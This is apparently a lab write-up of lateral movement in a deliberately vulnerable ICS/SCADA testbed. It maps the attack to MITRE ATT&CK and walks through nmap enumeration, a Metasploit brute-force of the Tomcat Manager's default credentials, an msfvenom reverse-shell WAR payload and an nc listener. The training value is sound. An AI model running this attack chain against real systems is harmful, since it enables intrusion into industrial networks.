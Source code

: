# Lateral movement

The attacker exploits a vulnerability in a remote service, allowing the attack to spread to the ICS network (this could be SCADA bridging IT and OT environments). \[T0866]

T0866 -> <https://attack.mitre.org/techniques/T0866/> 

After getting inside the web application machine.

**Lateral Movement via Apache Manager Weak Credentials (CVE-2009-3548)**

Once inside the vulnerable web server machine, the attacker's goal is to move laterally to another machine within the same network. In this case, the attacker is targeting the Apache Tomcat Manager in **ScadaBR**, which was purposely set to be vulnerable due to weak credentials (CVE-2009-3548).


### **Step-by-Step:**

1. **Obtaining a Shell Access:**

- After gaining initial access using the vulnerability in the web server, the attacker establishes a shell session using **Meterpreter** (last phase).

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfDN4B2F3RJ5vrYTmrgI4sO86pl6MTybgV100h2dIL6p-MMQ_BLAEcTE1751LON5qQI6oSAezsgwMdGYV2PUwTAItqMltCzdaHJ7OIPvbuA0OT5WA6LWvxqebFExfrIizhWtOlLi--yj7ud4fWW4fR8cstk?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 7:** Log4Shell exploit execution with successful remote execution.

2\. **Network Enumeration:**

- The attacker runs network commands to identify the IP configuration and other network devices.

- Result shows that the machine has two interfaces (`eth0` and `eth1`), with `eth1` assigned the IP `192.168.51.2/24 and a network that can be scanned`.

```
# checking interfaces
ip a # scanning the discovered network`
nmap 192.168.51.2/24

```
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd63FP86iRmWYrAPos379ndo4qOAnoJ-chUJyjM66BotSj0tOPdrol1WJidHA6_leya58HSuX8PcmqVqvtBnslAdM9W4pwEBJ_xXw7h9WK_T3EpNfoLcW7P-ojVX1d7oXmKcqWqUxVM1U79Tgq-mFV98L-B?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 8:** Network results (discovery of 192.168.51.5 machine).

3.  **Exploiting Tomcat Manager (CVE-2009-3548):**

****![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd8SyfUeVMDbSflFyh2-XqQ11oejRJAtcClA3Lq1PorrhafwMhP77hKxtS3PpQzd2R4iTTaxxEIaQ6ZjOws-8hzM0_bdVOFVmJNmniIgj87-YdD6YhwP5bcAPbbde6J84DMd3ZCIRqiySqcdXUve6QaUIJ1?key=ZVE4yllmhIbKOidz4k1V_g)****

**Img 9:** Tomcat server at 192.168.51.5:9090.

- The attacker targets the **Tomcat Manager** running on `192.168.51.5:9090/manager/html`.

- Using **Metasploit's** `scanner/http/tomcat_mgr_login` **module**, the attacker brute-forces the default credentials (`admin:admin`).

```
# step 1
sudo msfconsole

# step 2
use_ scanner/http/tomcat\_mgr\_login  

# step 3
setg RHOSTS \<target-ip>  `# 10.208.89.15 or 192.168.51.5 if in M1
setg RPORT \<target-port> # 9090
setg TARGETURI \<target url> # /manager/html

#step 4
exploit

```
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe2qMuFXGGOEA5RLTLO3hvakHwZkDHRrW2wLG-RKIth0wwptoNdUCOYtcl5R6WzPphk4UHR8uXagBMEnPQReQx0GF_5MkTtFJBley6-CWoAXhHMvm1fEzhzuOIIrB4uFDV9mLOn8AmnwdRHAboCsRSo-bje?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 10:** Tomcat server brute force attack at 192.168.51.5:9090/manager.html and discovery of credentials (admin:admin).

4\. **Crafting Malicious WAR File for Remote Code Execution (RCE):**

Once access is gained to the **Tomcat Manager**, the attacker uploads a malicious WAR file.

- The attacker uses **msfvenom** to create a malicious **WAR** file:

- The payload is configured to connect back to the attacker's listener on port 443 and on the M1 machine.
```
# step 1

sudo msfvenom -p java/shell\_reverse\_tcp LHOST=192.168.51.2 LPORT=443 -f war -o /tmp/shell.war

# step 2 

# upload the genereted shell.war file to the tomcat manager
```

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeMselmAuZKxQLJQLmFgDrG5wqdsNGCTbtwr8PP92Z2dyZX73aEJ2vO_OZKHF_SPdOXNqjboCk8v0JH7si-tl9YgQ86h_Zcm_rNrc_N48-4lBq7X0dkWzrBiW9dBZR-GjKsjzCbGTJPRqFgJnbQuV0xBJ0y?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 11:** Malicious WAR file (shell.war) uploaded in Tomcat server by the manager URL.

5\. **Triggering the Exploit and Establishing Reverse Shell**

- The attacker sets up a listener on the attacker's machine at `192.168.51.2`.

- The attacker triggers the RCE by accessing http\://10.208.89.15:9090/shell  or http\://192.168.51.5:9090/shell

```
# step 1

nc -lvnp 443

# step 2

# access_ http\://10.208.89.15:9090/shell |

```

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf6eQQLicqhkkjPsZ1Je1NiC8hpKTLpNCdc1GRLxNMMXYNad_68B4WBEoKos_53Zbgrb_I60DrLctTzfd6L1ERB7IQeD4McI0JpC4e_m6QO79ycWOO4pyYjyLwMdeH12I92Rp6rhiDIw_ClVMS9vwgCjlA?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 12:** RCE execution and successful invasion of M2.

